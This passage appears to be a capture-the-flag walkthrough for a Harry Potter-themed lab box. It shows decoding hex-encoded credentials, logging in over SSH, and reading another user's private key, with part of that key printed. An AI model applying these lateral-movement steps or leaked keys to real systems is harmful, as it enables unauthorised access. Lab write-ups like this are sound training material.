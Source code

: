 We found string encoded in hex. We can decode this string.

We go to the [CyberChef](https://icyberchef.com) and we decode the string.
`

We can try to connect to the SSH server using the credentials we found.

```bash
ssh dumbledore@$IP
```

We are connected to the SSH server.

We do a `ls` and we found a file `note.txt`.

```bash
cat note.txt

Help will always be given at Hogwarts to those who ask for it.

Truth be told, I will always have an eye on you Harry, I can see it all.
```

We need to go the the harry directory. We do a `cd /home/harry` to go to the `/home/harry` directory.

```bash
cd /home/harry
```

We do a `ls -la` to see the files in the directory.

```bash
ls -la

ls: cannot open directory '.': Permission denied
```

We try to show if the .ssh directory is in the harry directory.

```bash
ls -la .ssh
ls: cannot open directory '.ssh': Permission denied
```

We can try to show if `id_rsa` is in the .ssh directory.

```bash
cat .ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit
```

We found a private key. We can try to connect to the SSH server using the private key.

We save the private key in a file named `id_rsa`.

```bash
ssh harry@$IP -i .ssh/id_rsa
```
